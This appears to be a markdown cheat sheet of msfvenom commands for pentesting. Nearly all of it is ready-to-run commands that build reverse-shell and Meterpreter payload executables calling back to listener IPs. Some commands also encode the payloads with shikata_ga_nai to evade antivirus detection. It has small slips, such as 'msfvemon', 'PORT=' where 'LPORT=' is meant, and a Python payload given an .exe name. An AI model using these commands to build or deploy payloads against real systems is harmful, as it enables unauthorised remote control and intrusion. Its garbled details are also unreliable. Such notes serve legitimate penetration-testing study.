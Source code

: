 # Msfvenom

## Syntax

    msfvenom -p [payload] LHOST=[MyIP] LPORT=[DesiredPort] -f [Format] -o [YourMalwareFile]

`Example for a Windows Machine`

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f exe -o MyFile.exe

`Example for a Linux Machine`

    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f raw -o MyFile.exe


`Format Help`

    msfvemon --help-formats

------

## Payloads 

`List of payloads`

    -l payloads

`Format`

    $ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]

`Example`

Reverse Meterpreter payload as an executable and redirected into a file:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1  PORT=4444 –f exe > met.exe

Reverse TCP payload as an EXE creating the Wise.exe program

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.131 LPORT=7777 -f exe -o Wise.exe

` Format Options (specified with –f)` 

| **Option** | **Description** |
|------------|-----------------|
|`--help-formats` | Print out a summary of the specified options |
|`exe` | Executable |
| `pl` | Perl |
| `rb` | Ruby |
| `raw` | Raw shellcode |
| `c` | C code |

------

## Encoders

`List of encoders`

    -l encoders

    $ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]

`Example`

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

    $ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe